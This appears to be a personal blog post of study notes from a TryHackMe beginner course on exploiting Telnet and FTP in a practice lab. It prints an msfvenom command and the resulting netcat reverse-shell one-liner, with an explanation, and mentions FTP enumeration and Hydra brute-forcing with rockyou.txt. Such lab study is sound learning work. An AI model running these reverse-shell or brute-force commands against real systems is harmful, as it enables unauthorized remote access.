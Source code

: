 # TryHackMe: Complete Beginner

## Network Services

### Exploiting Telnet

```bash
# Listen for ICMP ping packets on an interface:
#
sudo tcpdump ip proto \\icmp -i $IFACE

# Use Metasploit to generate the code for a remote shell:
# 
msfvenom -p cmd/unix/reverse_netcat lhost=$LOCAL_IP lport=$LOCAL_PORT R

# Spin up a listener using netcat:
#
nc -lvp $LOCAL_PORT
```

In this exercise, Metasploit generates code that looks like this:

```bash
mkfifo /tmp/qdsrgu; nc $LOCAL_IP $LOCAL_PORT 0</tmp/qdsrgu | /bin/sh >/tmp/qdsrgu 2>&1; rm /tmp/qdsrgu
```

($LOCAL_IP and $LOCAL_PORT aren’t literal — they’re *actually* the local IP address of my machine on TryHackMe’s VPN and my chosen port. Neither of which should be particularly sensitive, but I’m still not going to post it on the internet!)

What’s going on here?

* `mkfifo /tmp/qdsrgu` creates a named pipe at /tmp/qdsrgu.
* We then spin up a netcat instance directed at our local machine (`nc $LOCAL_IP $LOCAL_PORT`), direct the contents of the pipe into netcat’s STDIN (`0< /tmp/qdsrgu`), pipe the *output* of netcat to a shell we know probably exists (`| /bin/sh`), and finally redirect *both* STDOUT and STDERR back into the named pipe (`> /tmp/qdsrgu 2>&1`).
* On the local machine, `nc -lvp $LOCAL_PORT` listens for the incoming netcat connection from the remote. Anything we type on STDIN here gets sent to the remote and piped to /bin/sh *there*. The output of /bin/sh is then sent to the named pipe, which dumps into (the remote) netcat, which then sends the data to the local machine where it ends up on STDOUT.

### Understanding FTP

The [active vs. passive FTP](https://en.wikipedia.org/wiki/File_Transfer_Protocol#Communication_and_data_transfer) distinction is about how the *server* handles establishing the data channel (the command channel is always set up by the client connecting to the server).

* Active FTP: The client opens a port which the server *actively* connects to when establishing the data channel.
* Passive FTP: The server opens a port which the client connects to when establishing the data channel.

### Enumerating FTP

FTP denotes user accounts using a leading tilde; thus `cwd ~admin` will attempt to change the current working directory to the home directory of the `admin` user. [Some (older) FTP daemons have a vulnerability](https://www.exploit-db.com/exploits/20745) where they allow the use of the `cwd` directory before login, and will return an error when attempting to change to a non-existent user directory.

Use nmap’s -sV option to attempt to probe for the service name and version information behind an open port.

Anonymous FTP logins, if allowed, use the username `anonymous` and a blank password.

### Exploiting FTP

Hydra can directly try to brute force passwords on remote machines.

Kali’s rockyou.txt.gz is apparently [a list of 14 million passwords](https://github.com/zacheller/rockyou) dumped during [the hack of some service called RockYou](https://techcrunch.com/2009/12/14/rockyou-hack-security-myspace-facebook-passwords/) that I hadn’t previously heard of. Apparently RockYou was a social network that allowed direct connection to other social networks (including Facebook and MySpace)… And stored all of the relevant passwords (including their own) in the clear!

- - - -

<span aria-hidden="true">👤</span> Nathan Acks  
<span aria-hidden="true">📅</span> October 2, 2021
